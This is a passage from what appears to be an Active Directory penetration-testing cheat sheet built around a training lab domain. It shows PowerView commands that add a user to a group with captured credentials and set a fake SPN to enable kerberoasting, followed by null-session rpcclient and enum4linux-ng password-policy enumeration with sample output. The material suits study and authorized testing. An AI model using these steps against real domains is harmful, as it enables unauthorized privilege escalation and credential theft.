 ```bash
Add-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $damCred -Verbose

```

## Set fake SPN with PowerView

Set up a fake SPN allow us to performa kerberoasting attack. To do that read the [kerberoasting section](AD%20Cheat%20Sheet/Kerberoasting%20Attack.md)

```bash
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

```

# Password Policies Enumeration  

### **Enum4lin-ng**

```bash
enum4linux-ng -P 172.16.5.5  -oA domain_policies
```

### **Rpcclient**

```bash
rpcclient -U "" -N 172.16.5.5
```

## Query to enum informatio about domain users

```bash
rpcclient $> querydominfo
Domain:         INLANEFREIGHT
Server:
Comment:
Total Users:    3509
Total Groups:   0
Total Aliases:  203
Sequence No:    1
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
rpcclient $>
```

## Query to enum information about password policy
```bash
rpcclient $> getdompwinfo

min_password_length: 8
password_properties: 0x00000001 DOMAIN_PASSWORD_COMPLEX

rpcclient $>
```
